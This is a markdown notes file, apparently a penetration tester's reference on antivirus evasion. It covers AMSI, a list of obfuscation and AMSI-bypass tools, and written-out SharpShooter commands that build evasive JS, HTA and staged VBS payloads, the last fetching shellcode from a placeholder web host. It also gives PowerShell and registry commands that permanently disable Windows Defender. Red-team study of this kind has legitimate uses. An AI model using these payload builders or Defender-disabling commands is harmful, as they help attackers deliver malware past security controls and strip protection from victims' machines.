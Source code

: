 # AV Evasion   
## Notes 
2 primary types: 
on disk: file saved on target then executed 
in memory: preferred for evasion, import script into memory and then executed.  
Windows AMSI (Anti Malware Scan Interface): evals commands at runtime, scans scripts as they are imported into memory, makes evasion harder. VBA, Powershell, JavaScript. 
 AV agnostic: API any anti-virus product can use. "Identify fileless threats - at runtime most of obfuscation is removed" defeat: obfuscate code. 


## Tools     
Testing: [Windows developer iso](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)  

[Invoke-Obfuscation powershell script](https://github.com/danielbohannon/Invoke-Obfuscation)  
[Invoke-bfuscation Usage Guide](https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide)  
https://github.com/tokyoneon/Chimera ( bypassing AMSI and signature based detection )   
https://github.com/persianhydra/Xeexe-TopAntivirusEvasion   
https://github.com/BC-SECURITY/Empire/blob/master/empire/server/common/bypasses.py  

[Veil](https://github.com/Veil-Framework/Veil) 
[Shellter](https://www.shellterproject.com/download/)  
[Donut](https://github.com/TheWover/donut) 
[Vulcan](https://github.com/praetorian-code/vulcan) 
[Scarecrow](https://github.com/optiv/ScareCrow)  

## Sharpshooter
[SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)   

Javascript Payload Stageless:   

    SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload: 

    SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

    SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4


## Commands 
Turning off Windows Defender 

    Set-MpPreference -DisableRealtimeMonitoring $true   

Need to run Powershell as admin and reboot after running command to turn off Windows Defender indefinetly: 

    New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -name disableantispyware -value 1 -Force


View Windows Defender logs   

    Get-WinEvent 'Microsoft-Windows-Windows Defender/Operational' MaxEvents 10 | Where-Object Id -e 1116 | Format-List 


# Resources  
## Cheat sheets 
https://github.com/sinfulz/JustEvadeBro   
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

## Workshops 
https://github.com/BC-SECURITY/Beginners-Guide-to-Obfuscation 



